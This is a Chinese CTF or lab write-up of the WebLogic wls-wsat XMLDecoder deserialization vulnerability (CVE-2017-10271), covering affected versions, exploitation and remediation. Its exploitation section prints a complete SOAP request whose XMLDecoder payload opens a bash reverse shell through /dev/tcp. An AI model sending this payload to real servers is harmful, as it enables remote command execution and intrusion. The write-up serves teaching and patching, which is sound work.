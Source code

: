 Weblogic wls-wsat XMLDecoder 反序列化漏洞 CVE-2017-10271

# 一，漏洞描述

CVE-2017-10271漏洞产生的原因大致是Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限


# 二，影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

# 三，利用流程

访问地址： `10.10.11.20:51054`

名称：CVE-2017-10271

访问地址`/wls-wsat/CoordinatorPortType11`发现可能存在漏洞

![1](./1.jpg)

发送数据包

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 10.10.11.20:51054
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![2](./2.jpg)

执行命令获得flag

![3](./3.jpg)

通关！

# 四，修复方案

1.临时解决方案
根据攻击者利用POC分析发现所利用的为wls-wsat组件的CoordinatorPortType接口，若Weblogic服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后，再进行恢复。
根据实际环境路径，删除WebLogic wls-wsat组件：
rm -f   /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f   /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
重启Weblogic域控制器服务:
DOMAIN_NAME/bin/stopWeblogic.sh           #停止服务
DOMAIN_NAME/bin/startManagedWebLogic.sh    #启动服务
删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。
2.官方补丁修复
前往Oracle官网下载10月份所提供的安全补丁
http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
升级过程可参考：
http://blog.csdn.net/qqlifu/article/details/49423839